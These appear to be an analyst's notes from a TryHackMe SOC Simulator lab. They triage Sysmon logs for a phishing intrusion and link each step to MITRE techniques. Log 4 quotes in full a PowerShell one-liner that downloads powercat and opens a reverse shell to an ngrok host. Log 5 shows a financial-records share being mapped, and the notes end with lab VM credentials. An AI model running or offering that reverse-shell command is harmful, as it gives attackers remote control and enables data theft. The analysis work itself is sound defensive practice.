 Gen notes

SIEM notes

1
 datasource: sysmon  
   event.action: Registry value set (rule: RegistryEvent)  
   event.code: 13  
   host.name:  
   process.name: spoolsv.exe  
   process.pid: 3848  
   registry.key: System\CurrentControlSet\Control\DeviceClasses\{0ecef634-6ef0-472a-8085-5ad023ecbccd}\##?#SWD#PRINTENUM#{49455221-FA52-47F9-826D-B41CFD35E447}#{0ecef634-6ef0-472a-8085-5ad023ecbccd}\#\Device Parameters\FriendlyName  
   registry.path: HKLM\System\CurrentControlSet\Control\DeviceClasses\{0ecef634-6ef0-472a-8085-5ad023ecbccd}\##?#SWD#PRINTENUM#{49455221-FA52-47F9-826D-B41CFD35E447}#{0ecef634-6ef0-472a-8085-5ad023ecbccd}\#\Device Parameters\FriendlyName  
   registry.value: FriendlyName  
   timestamp: 03/24/2025 00:44:39.477

regkey changed for spooler, perhaps monitor what spoolsv.exe does after this

2

   datasource: sysmon  
   event.action: Process Create (rule: ProcessCreate)  
   event.code: 1  
   host.name: win-3452  
   process.command_line: C:\Windows\system32\rundll32.exe C:\Windows\system32\inetcpl.cpl,ClearMyTracksByProcess Flags:8388616 WinX:0 WinY:0 IEFrame:0000000000000000  
   process.name: rundll32.exe  
   process.parent.name: iexplore.exe  
   process.parent.pid: 3769  
   process.pid: 3528  
   process.working_directory: C:\Users\cain.omoore\Desktop\  
   timestamp: 03/24/2025 01:00:22.477

potential lead
same host had this next log where sethc.exe and parent AtBroker.exe 

3

  datasource: sysmon  
   event.action: Process Create (rule: ProcessCreate)  
   event.code: 1  
   host.name: win-3452  
   process.command_line: "C:\Windows\System32\Sethc.exe" /AccessibilitySoundAgent  
   process.name: sethc.exe  
   process.parent.name: AtBroker.exe  
   process.parent.pid: 3919  
   process.pid: 3822  
   process.working_directory: C:\Windows\system32\  
   timestamp: 03/24/2025 00:46:15.477

https://attack.mitre.org/techniques/T1218/
https://attack.mitre.org/techniques/T1546/008/
https://lolbas-project.github.io/lolbas/Binaries/Atbroker/

4
   datasource: sysmon  
   event.action: Process Create (rule: ProcessCreate)  
   event.code: 1  
   host.name: win-3450  
   process.command_line: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 2.tcp.ngrok.io -p 19282 -e powershell"  
   process.name: powershell.exe  
   process.parent.name: explorer.exe  
   process.parent.pid: 3,180  
   process.pid: 3880  
   process.working_directory: C:\Windows\System32\WindowsPowerShell\v1.0\  
   timestamp: 03/24/2025 01:10:57.477

CEO michael ascott is downloading powercat and opening on p19282 this is obvious malicious activity ATP

https://attack.mitre.org/techniques/T1105/

5 TIES TO 4

datasource: sysmon  
   event.action: Process Create (rule: ProcessCreate)  
   event.code: 1  
   host.name: win-3450  
   process.command_line: "C:\Windows\system32\net.exe" use Z: \\FILESRV-01\SSF-FinancialRecords  
   process.name: net.exe  
   process.parent.name: powershell.exe  
   process.parent.pid: 3728  
   process.pid: 5784  
   process.working_directory: C:\Users\michael.ascot\downloads\  
   timestamp: 03/24/2025 01:14:03.477

evidence of financial records exfil

RCA:

alert 1007 was an email delivering an attachment ImportantInvoice-Febrary.zip (see forensic machine notes) disguising itself as a PDF

the link in that shortcut executed malicious powershell scripts

Forensic machine notes

linked pdf see SIEM 4


pending escalation / false posneg decision notes



Leads

check leads1
regkey changed for spooler, perhaps monitor what spoolsv.exe does after this


NOTES FOR FUTURE REFERENCE:
-add fields that are good
-next time try to do a run with good MTTRs
-locked out of analyst VM, reopen scenario and check on Analyst VM to test PDF file with link extension behavior
TryHackMe SOC Simulator analyst VM, you'll need the credentials: username `damianhall` and password `Logs321!` TURNS OUT THERE ARE CREDS